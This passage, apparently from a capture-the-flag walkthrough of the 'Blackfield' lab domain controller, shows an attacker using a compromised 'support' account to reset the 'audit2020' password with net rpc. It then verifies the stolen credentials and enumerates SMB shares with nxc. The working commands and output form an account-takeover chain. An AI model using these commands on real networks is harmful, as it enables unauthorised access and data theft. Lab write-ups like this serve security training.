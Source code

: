 ```bash
WARNING: DCE/RPC connection failed: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
INFO: Done in 00M 06S
```

It seems that the account `support` can change the password of the account `audit2020`:

```bash
# change user's password
$ net rpc password 'audit2020' 'p@ssw0rd!' -U "blackfield.local/support%#0<REDACTED>ht" -S dc01.blackfield.local

# confirm credentials
$ nxc smb 10.10.10.192 -u audit2020 -p 'p@ssw0rd!'
SMB         10.10.10.192    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\audit2020:p@ssw0rd!
```

> _We can also change the user's password using_ [_`rpcclient`_](https://malicious.link/posts/2017/reset-ad-user-password-with-linux/)_._

Check the conent of the **forensic** share:

```bash
$ nxc smb 10.10.10.192 -u audit2020 -p 'p@ssw0rd!' --share forensic -M spider_plus
SMB         10.10.10.192    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\audit2020:p@ssw0rd!
SPIDER_P... 10.10.10.192    445    DC01             [*] Started module spidering_plus with the following options:
SPIDER_P... 10.10.10.192    445    DC01             [*]  DOWNLOAD_FLAG: False
SPIDER_P... 10.10.10.192    445    DC01             [*]     STATS_FLAG: True
SPIDER_P... 10.10.10.192    445    DC01             [*] EXCLUDE_FILTER: ['print$', 'ipc$']
SPIDER_P... 10.10.10.192    445    DC01             [*]   EXCLUDE_EXTS: ['ico', 'lnk']
SPIDER_P... 10.10.10.192    445    DC01             [*]  MAX_FILE_SIZE: 50 KB
SPIDER_P... 10.10.10.192    445    DC01             [*]  OUTPUT_FOLDER: /tmp/nxc_spider_plus
SMB         10.10.10.192    445    DC01             [*] Enumerated shares
SMB         10.10.10.192    445    DC01             Share           Permissions     Remark
SMB         10.10.10.192    445    DC01             -----           -----------     ------
SMB         10.10.10.192    445    DC01             ADMIN$                          Remote Admin
SMB         10.10.10.192    445    DC01             C$                              Default share
SMB         10.10.10.192    445    DC01             forensic        READ            Forensic / Audit share.
SMB         10.10.10.192    445    DC01             IPC$            READ            Remote IPC
SMB         10.10.10.192    445    DC01             NETLOGON        READ            Logon server share
SMB         10.10.10.192    445    DC01             profiles$       READ
SMB         10.10.10.192    445    DC01             SYSVOL          READ            Logon server share
SPIDER_P... 10.10.10.192    445    DC01             [+] Saved share-file metadata to "/tmp/nxc_spider_plus/10.10.10.192.json".
SPIDER_P... 10.10.10.192    445    DC01             [*] SMB Shares:           7 (ADMIN$, C$, forensic, IPC$, NETLOGON, profiles$, SYSVOL)
SPIDER_P... 10.10.10.192    445    DC01             [*] SMB Readable Shares:  5 (forensic, IPC$, NETLOGON, profiles$, SYSVOL)
SPIDER_P... 10.10.10.192    445    DC01             [*] SMB Filtered Shares:  1
SPIDER_P... 10.10.10.192    445    DC01             [*] Total folders found:  368
SPIDER_P... 10.10.10.192    445    DC01             [*] Total files found:    725
SPIDER_P... 10.10.10.192    445    DC01             [*] File size average:    978.9 KB
SPIDER_P... 10.10.10.192    445    DC01             [*] File size min:        0 B
SPIDER_P... 10.10.10.192    445    DC01             [*] File size max:        125.87 MB
```
